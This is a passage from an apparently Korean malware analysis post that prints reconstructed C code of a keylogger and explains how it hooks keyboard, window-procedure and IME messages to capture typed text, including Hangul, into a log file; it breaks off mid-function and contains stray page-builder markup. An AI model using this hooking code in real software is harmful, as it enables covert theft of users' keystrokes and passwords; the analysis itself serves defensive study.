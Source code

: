 int SetWindowsHooks()
{
    if(IMEHook == NULL)
        IMEHook = SetWindowsHookEx(WH_GETMESSAGE, KeyboardHook_IME, hmod, NULL);
    return -1;
}

int SK(LPCSTR lpString2)
{
    HWINSTA hWS;
    HDESK hDT;

    // Connect to the window station
    hWS = OpenWindowStation("Winsta0", FALSE, MAXIMUM_ALLOWED);
    if(hWS)
    {
        SetProcessWindowStation(hWS);
     }
    //Connect to the desktop
    hDT = OpenDesktop("Default", 1, FALSE, MAXIMUM_ALLOWED);
    if(hDT)
        SetThreadDesktop (hDT);
    strcpy(filename, lpString2); // logfilename
    if(hHook == NULL) // SK가 처음 실행된 경우..
        hHook = SetWindowsHookEx(WH_KEYBOARD, KeyboardMessageHook, hmod, NULL);
    if(ImmHook == NULL) // SK가 처음 실행된 경우..
        ImmHook = SetWindowsHookEx(WH_CALLWNDPROC, ImmKeyboardHook, hmod, NULL);
    return SetWindowHooks();
}</pre>
<p><span style="line-height: 1.5em;">악성코드는 사용자가 키입력을 할 때 발생할 때와 시스템에서 윈도우 프로시저로 메시지를 전달하기 전에 후킹 프로시저를 등록하여 키보드 입력을 가로채도록 하였다. 그리고 마지막에 SetWindowHooks 함수를 호출하여 메시지큐에 메시지를 가져오는 시점을 후킹하였다.</span></p>
<h3>- WH_KEYBOARD 후킹</h3>
<p>일반적인 키보드 후킹을 수행한다. wParam의 파라미터를 체크하여 일반적인 키 입력(1~0 or atoz 등)이면 GetKeyboardState() -&gt; ToAscii()로 문자를 추출한 후, irykmmww.log 파일에 로그를 남긴다.  만약에 일반적인 키 입력 아닌 경우, wParam 값에 들어있는 메시지에 해당하는 기능 키(화살표, 스페이스바, 엔터 등)로 변환하여 로그를 남긴다. 각 wParam 메시지는 다음과 같이 변환된다.</p>
<ul>
<li>0x20 -&gt; Space bar (" ")</li>
<li>0x8 -&gt; Back-space ("[fusion_builder_container hundred_percent="yes" overflow="visible"][fusion_builder_row][fusion_builder_column type="1_1" background_position="left top" background_color="" border_size="" border_color="" border_style="solid" spacing="yes" background_image="" background_repeat="no-repeat" padding="" margin_top="0px" margin_bottom="0px" class="" id="" animation_type="" animation_speed="0.3" animation_direction="left" hide_on_mobile="no" center_content="no" min_height="none"][&lt;=]")</li>
<li>0xD -&gt; CarriageReturn-LineFeed ("rn")</li>
<li>0x28 -&gt; Under Arrow ("[V]")</li>
<li>0x26 -&gt; Upper Arrow ("[^]")</li>
<li>0x25 -&gt; Left Arrow ("[&lt;-]")</li>
<li>0x27 -&gt; Right Arrow ("[-&gt;]")</li>
</ul>
<p>이 외의 메시지는 CallNextHookEx로 원래 프로시저에게 처리되도록 한다.</p>
<h3>- WH_CALLWNDPROC 후킹</h3>
<p>lParam의 메시지가 IME 변경 입력인 경우, 즉 WM_IME_COMPOSITION 메시지인 경우에 대해 키보드 후킹을 진행한다.  예를 들어 하나의 한글의 경우 한글의 자음과 모음이 입력될 때마다 메시지가 발생된다. 이 프로시저는 이 메시지를 가로채서 입력된 키를 획득한다.</p>
<pre class="lang:default decode:true" title="ImmKeyboardHook">ImmKeyboardHook(int code, WPARAM wParam, LPARAM lParam)
{
    if((MSG*)lParam-&gt;message == WM_IME_COMPOSITION)
    {
        hWnd = GetFocus();
        hImg = ImmGetContext(hWnd);
        strLen = ImmGetCompositionString(hImg, GCS_RESULTSTR, NULL, NULL);
        ImmGetCompositionString(hImg, GCS_RESULTSTR, String1, strLen+1);
        if(IsDBCSLeadByte(char((MSG*)lParam-&gt;wParam)))
        {